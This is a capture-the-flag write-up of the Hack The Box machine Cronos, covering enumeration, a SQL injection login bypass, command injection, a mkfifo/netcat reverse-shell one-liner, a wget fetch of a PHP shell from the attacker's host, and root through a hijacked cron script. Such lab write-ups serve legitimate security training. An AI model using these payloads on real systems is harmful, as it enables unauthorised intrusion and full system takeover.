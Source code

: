 ```yaml
---
title: Cronos Hackthebox Writeup
date: 2021-01-06 01:00:00 +0800
categories: [Hackthebox, Retired]
tags: [linux,sqli,slq injection,php,command execution,cron jobs]     # TAG names should always be lowercase
image: /assets/img/cronos-hackthebox/cronos-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Cronos:~$


Column | Details
------------ | -------------
Name | Cronos
IP | 10.10.10.13
Points | 30
Os | Linux
Difficult | Medium
Creator | [ch4p](https://www.hackthebox.eu/home/users/profile/1)
Out on | 22nd March 2017

# Summary:~$

* Discovering the new host and scanning for open ports.
* Using `gobuster` for **subdomain** enumeration.
* Loging into `admin.cronos.htb` using SQL Payload i.e *' or 1=1 #*
* Getting `Command Execution` and further reverse shell.
* Exploited a `cron job` running with Root permissions to Escalate Privileges.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/cronos-hackthebox/nmap-scan-1.png)

Basically `3 ports` are open i.e. `22,80,53`. Let's access port 80 first.

___
![](/assets/img/cronos-hackthebox/port-80-2.png)

It shows an `Apache2 default page`. In nmap scan we got to know the title is `cronos`, so I entered the IP and *cronos.htb* in my `/etc/hosts` file.

Accessing `cronos.htb`, we get this:

___
![](/assets/img/cronos-hackthebox/cronos-htb-3.png)

I used `dirbuster` to find **hidden directories**. *Wordlist used*: directory-list-2.3-medium.txt.

___
![](/assets/img/cronos-hackthebox/dirbuster-command-4.png)

I got a few directories, but nothing interesting.

___
![](/assets/img/cronos-hackthebox/dirbuster-result-5.png)

When I saw `port 53` as open, the first thing striked in my mind was `Subdomain Enumeration`.
**Gobuster Command**: *gobuster vhost -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u cronos.htb*

___
![](/assets/img/cronos-hackthebox/gobuster-subdomain-enum-cronos-6.png)

We found `admin.cronos.htb`, acessing it gave us a `login page`.

___
![](/assets/img/cronos-hackthebox/login-page-on-admin-page-7.png)

I used a `SQL Payload` to bypass the login page.
**Payload**: *' or 1=1 #*

___
![](/assets/img/cronos-hackthebox/logged-in-admin-page-8.png)

From the dropdown I selected `ping` option and used `|` to add *whoami* command.

___
![](/assets/img/cronos-hackthebox/whoami-command.png)

We got `www-data` as a result, It shows that we have `Command execution` on the machine. Let's get a reverse shell.
**Payload**: *rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f*

[Payload link](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

___
![](/assets/img/cronos-hackthebox/got-www-data-shell-10.png)

We got a reverse shell as `www-data`, and further captured the *user-flag*.

For `Escalating Privileges`, I had transfered [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) to the machine using *wget* command.

___
![](/assets/img/cronos-hackthebox/download-wget-on-the-machine-12.png)

After giving `executing permissions` to linpeas.sh by *chmod +x linpeas.sh*, I ran it and got this:

___
![](/assets/img/cronos-hackthebox/something-phishy-13.png)

There is a `cron job` running which executes *artisan* script with PHP.

Just to make sure I used [pspy32](https://github.com/DominicBreuker/pspy) which detects the cron jobs running in linux.

___
![](/assets/img/cronos-hackthebox/cron-job-running-15.png)

Now let's replace the `artisan` file with our own malicious script.

**PHP Shell**: *https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php*

**wget command**: *wget http://10.10.14.17:8081/shell.php*

Further I renamed the file to *artisan* using `mv` command.

___
![](/assets/img/cronos-hackthebox/got-root-18.png)

Listening on specified port using `nc`, We got `Root`.
